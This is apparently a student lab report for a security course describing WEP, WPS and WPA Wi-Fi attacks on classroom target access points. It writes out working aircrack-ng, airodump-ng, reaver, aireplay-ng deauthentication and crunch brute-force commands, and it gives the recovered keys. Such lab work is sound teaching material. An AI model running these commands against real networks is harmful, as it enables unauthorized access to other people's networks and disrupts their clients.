


<div class='titlePage'>

# CSE 4820 Lab 2
#### WEP/WPS/WPA Vulnerabilities
##### Grant Butler, Jerrel Gordon
</div>
<div class="center">

##### Table of Contents
</div>

[TOC]

<div class="pageBreak"></div>

#### Task 1: WEP Hacking
##### a: Find AP with WEP

FITSec-Target-2 has WEP

@import "assets/network_types.png"

##### b: Capturing traffic/cracking WEP

Using this command to capture a cap file:

```bash
sudo airodump-ng -c 9 --bssid 00:0F:66:89:B5:ED -w wep-attack wlan0mon
```

We should have been able to crack it with this:
```bash
sudo aircrack-ng -b 00:0F:66:89:B5:ED wep-attack-01.cap
```

But, unfortunately the WEP station stopped working while we were in lab.

<div class="pageBreak"></div>

Instead, Kourtnee supplied the class with a pcap file after class, so the exploit was done with the following commands:
<div class="center" style="max-width:50%; height:auto">


</div>
Using `airolib-ng` to make a database of hashes with the ESSID and wordlist given, the following command was used to crack WEP:

```bash
sudo aircrack-ng -r wep-db wep.pcap
```

Which returned the key for that specific network:
`KEY FOUND! [ DE:FE:4D:53:00 ]`

<div class="center" style="max-width:75%">


</div>


<sub>*output of aircrack using wordlist hashed using `airolib-ng`*</sub>

<div class="pageBreak"></div>

#### Task 2: WPS Hacking
##### a: Find AP with WPS

There was not an AP with WPS enabled as far as anyone could find.

##### b: Launch the attack

Using the command

```bash
sudo reaver -i wlan0mon -b <bssid> -vv
```

for all three of the APs, every time this error would happen:

@import "assets/wps_not_working.png"
<sub>*`reaver` returning that WPS seemed to be off for the AP*</sub>

This seemed to show that there was not a WPS enabled AP during the lab.

<div class="pageBreak"></div>

#### Task 3: WPA Crack
##### a. Finding WPA AP

Using `airodump-ng`, the AP FITSec-Target-1 was found to have WPA encryption.

@import "assets/network_types.png"

##### b. Capturing WPA Handshake

After identifying the AP with WPA, we used `aireplay-ng` to deauth a router with the following command:

```bash
aireplay-ng -0 100 -a <AP_bssid> -c <client_bssid> wlan0mon
```

While doing that, a `.cap` file was being captured with the command:

```bash
sudo airodump-ng -c 9 --bssid <AP_bssid> -w wpa-data wlan0mon
```

The notes section of the `airodump-ng` output showed `EAPOL` in one of the frames being captured, meaning that the WPA handshake had been captured.

##### c. Cracking WPA

Using the file `wpa-data.cap` and the wordlist provided, the ESSID FITSec-Target-1 was cracked with the command:

```bash
sudo aircrack-ng -w animals.txt -b <bssid> wpa-data.cap
```

@import "assets/wpa2_cracked.png"

The passphrase of that AP happened to be `Jellyfish`!

<div class="pageBreak"></div>

#### Task 4: WPA Brute Force

Unfortunately, there was not enough time to complete this part of the lab today. If there was, an approach similar to this one with `crunch` could be used to brute force all possible 8 digit numeric password possible:

```bash
crunch 8 8 0123456789 | aircrack-ng -w - -b <bssid> wpa.cap
```

This is assuming that the `cap` has the WPA handshake in it, which could happen easily with a de-auth so that the AP tried to reauthenticate a client device.
